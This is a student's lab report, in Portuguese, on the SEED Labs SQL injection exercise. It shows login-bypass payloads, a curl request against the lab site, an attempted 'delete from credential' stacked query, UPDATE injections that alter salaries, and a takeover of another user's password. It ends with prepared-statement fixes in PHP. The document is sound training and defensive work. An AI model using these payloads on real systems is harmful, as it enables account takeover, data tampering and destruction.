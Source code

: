 _Samuel Cavalcanti_

# Relatório SQL Injection 


- __Task 1: Get Familiar with SQL Statements__

![](where_alice.png)

- __Task 2.1: SQL Injection Attack from webpage__

Resposta: Username, pois ao contrário da senha ele usa exatamente o que eu digitar no comando MYSQL.

o commando digitado foi:
```sql
admin'# 
```
dessa forma ele vai buscar pelo nome admin e com o # vai ignorar a verificação do password.


- __Task 2.2: SQL Injection Attack from command line__

Resposta:

```bash
curl -G -v http://www.seedlabsqlinjection.com/unsafe_home.php --data-urlencode "username=admin'#" --data-urlencode "Password=123"
```

- __Task 2.3: Append a new SQL statement__.

Resposta:

Tentei diferentes statements: 
```sql
admin'; delete from credential;#
admin'; select * from credential; #
admin'; insert into credential (ID,Name,EID,Salary,birth,SSN) Values(7,'Samuel',700000,30000,"4/27",123123123);
```

mas todos falharam não sei o por que.


- __Task 3.1: Modify your own salary__


resposta:

primeiro alterei o nickname para Al

![](al.png)


segundo, eu parti do principio que não sabia o nome da coluna de ids  então  chutei que o mesmo nome NickName também era no formulário e deu certo.

```sql
',salary=5000000 where NickName='Al';#
```

![](changeMySalary.png)


- __Task 3.2: Modify other people’ salary__

Primeiro descubro o Employee ID de boby , uma das maneiras é usar a falha de segurança do admin.

![](eid_boby.png)


Segundo, utilizo o sql injection que anteriormente utilizei para alterar meu salário, agora utilizo para alterar o de bob assim:

```sql
',salary=1 where eid=20000';#
```

ficando assim: 

![](ja_era_boby.png)


- __Task 3.3: Modify other people’ password__

Devido a falha de segurança da tarefa 2.1, não preciso da senha para entrar na conta de ninguém. então...

Primeiro logo no admin 

![](eid_boby.png)

pego o username do boby que é boby. logo na conta do boby:
```sql
boby'#
```

Como o sistema não pergunta a senha antiga para gerar uma nova então simplesmente troco a senha dele para 123456

![](lost_password.png)

- __Task 4: Countermeasure — Prepared Statement__

Contra medidas no __unsafe_home.php__
```php
 function getDB() {
        $dbhost="localhost";
        $dbuser="root";
        $dbpass="seedubuntu";
        $dbname="Users";
        // Create a DB connection
        $conn = new mysqli($dbhost, $dbuser, $dbpass, $dbname);
        if ($conn->connect_error) {
          echo "</div>";
          echo "</nav>";
          echo "<div class='container text-center'>";
          die("Connection failed: " . $conn->connect_error . "\n");
          echo "</div>";
        }
        return $conn;
      }

      // create a connection
      $conn = getDB();

      $stmt = $conn->prepare("SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email, nickname, Password
      FROM credential
      WHERE name = ? and password = ? ");
      // Bind parameters to the query
      $stmt->bind_param("ss", $input_uname, $hashed_pwd);
      $stmt->execute();
      $stmt->bind_result($id, $name, $eid, $salary, $birth, $ssn, $phoneNumber, $address, $email, $nickname, $pwd);
      $stmt->fetch();

      if($id!=""){
        // If id exists that means user exists and is successfully authenticated
        drawLayout($id,$name,$eid,$salary,$birth,$ssn,$pwd,$nickname,$email,$address,$phoneNumber);
      }else{
        // User authentication failed
        echo "</div>";
        echo "</nav>";
        echo "<div class='container text-center'>";
        echo "<div class='alert alert-danger'>";
        echo "The account information your provide does not exist.";
        echo "<br>";
        echo "</div>";
        echo "<a href='index.html'>Go back</a>";
        echo "</div>";
        return;
      }
      // close the sql connection
      $conn->close();
```


Contra medidas no __unsafe_edit_backend.php__

```php
function getDB() {
    $dbhost="localhost";
    $dbuser="root";
    $dbpass="seedubuntu";
    $dbname="Users";
    // Create a DB connection
    $conn = new mysqli($dbhost, $dbuser, $dbpass, $dbname);
    if ($conn->connect_error) {
      die("Connection failed: " . $conn->connect_error . "\n");
    }
    return $conn;
  }

  $conn = getDB();
  // Don't do this, this is not safe against SQL injection attack
  $sql="";
  if($input_pwd!=''){
    // In case password field is not empty.
    $hashed_pwd = sha1($input_pwd);
    //Update the password stored in the session.
    $_SESSION['pwd']=$hashed_pwd;

    $stmt = $conn->prepare( "UPDATE credential SET nickname=?,email=?,address=?,Password=?,PhoneNumber=? where ID=?;");
    $stmt->bind_param("sssssi", $input_nickname,$input_email,$input_address,$hashed_pwd,$input_phonenumber,$id);

  }else{
    // if passowrd field is empty.
    $stmt = $conn->prepare( "UPDATE credential SET nickname=?,email=?,address=?,PhoneNumber=? where ID=?;");
    $stmt->bind_param("ssssi", $input_nickname,$input_email,$input_address,$input_phonenumber,$id);
    
   
  }
  $stmt->execute();
  // $conn->query($sql);
  // $conn->close();
  header("Location: unsafe_home.php");
  exit();
```